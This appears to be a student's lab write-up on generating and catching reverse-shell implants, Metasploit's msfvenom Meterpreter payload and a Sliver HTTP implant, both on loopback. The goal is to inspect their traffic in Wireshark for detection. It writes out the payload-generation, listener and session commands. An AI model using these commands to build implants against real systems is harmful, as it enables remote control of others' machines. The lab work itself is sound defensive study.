 # A) Sniff venom
At first I made malicious binaries with msfvenom. I used the following command: `msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -o infected1`  
After the malicious binary was made, i opened multi/handler in msfconsole, and set the LHOST, LPORT and the payload to be the same as the attack payload.  
Then i started up the ran the malicious binary and got a connection to multi/handler.  
<img width="464" height="65" alt="image" src="https://github.com/user-attachments/assets/fccd63f0-f5d3-4776-8db7-04696f861dfe" />  
Now that the connection has been made, i opened wireshark and gave a few random commands in the meterpreter session to see what the traffic looks like
<img width="824" height="105" alt="image" src="https://github.com/user-attachments/assets/7a9ef415-fd1e-430f-837f-40e5ca7c1726" />  
This was the traffic of a single `ls` command. Im not sure how to analyze this. Maybe this can be detected by unusual TCP port?  
# B) Hello, Sliver.  
I started out by downloading sliver: `sudo apt-get install sliver`  
After that I ran sliver: `sliver-server`  
Then I generated a malicious payload for linux and set the callback address as loopback: `generate --http 127.0.0.1 --os linux`  
<img width="277" height="103" alt="image" src="https://github.com/user-attachments/assets/483bbc19-c759-4844-a345-5eaad58b4d4b" />  
After that I started the http listener with the command `http`, and ran the payload.  
<img width="647" height="65" alt="image" src="https://github.com/user-attachments/assets/7a324193-565f-443d-b140-d736405a02a1" />  
To interact with the session, I used the command `sessions -i sessionID`  
<img width="191" height="35" alt="image" src="https://github.com/user-attachments/assets/2c87299f-ffa6-452c-99d6-053ceaee4c15" />  
I tried to analyze the traffic once again with wireshark, but I cannot pinpoint anything suspicious about the traffic, maybe once again a weird portnumber?
<img width="781" height="215" alt="image" src="https://github.com/user-attachments/assets/f66b706e-8c44-433f-8ba3-c1de2b771383" />  









